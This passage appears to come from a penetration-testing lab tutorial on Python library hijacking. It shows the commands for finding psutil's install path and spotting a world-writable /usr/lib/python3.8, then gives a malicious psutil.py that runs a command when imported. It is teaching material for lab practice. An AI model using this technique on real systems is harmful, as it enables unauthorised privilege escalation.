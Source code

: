 To be able to use this variant, two prerequisites are necessary.

1. The module that is imported by the script is located under one of the lower priority paths listed via the `PYTHONPATH` variable.
2. We must have write permissions to one of the paths having a higher priority on the list.

Therefore, we can create a module with the same name and include our own desired functions. Python will access our module in the higher priority path first and import it before reaching the original and intended module.

Previously, the `psutil` module was imported into the `mem_status.py` script. We can see `psutil`'s default installation location by issuing the following command:

### Psutil Default Installation Location
```shell-session
htb-student@lpenix:~$ pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages

...SNIP...
```

From our previous listing of the `PYTHONPATH` variable, we have reasonable amount of directories to choose from to see if there might be any misconfigurations in the environment to allow us `write` access to any of them.

### Misconfigured Directory Permissions
```shell-session
htb-student@lpenix:~$ ls -la /usr/lib/python3.8

total 4916
drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
...SNIP...
```

It appears that `/usr/lib/python3.8` is misconfigure with write permissions to any user. From the `PYTHONPATH`, we can see that this path is higher on the list from the path in which `psutil` is installed in. Let us try abusing this misconfiguration to create our own `psutil` module containing our own malicious `virtual_memory()` function within the `/usr/lib/python3.8` directory.

### Hijacked Module Contents - psutil.py
```python
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```

It is very important to make sure that our module has the same name as the import as well as the same function with the correct number of arguments passed to it as the function we are intended to hijack. Otherwise we would not be able to perform the attack.

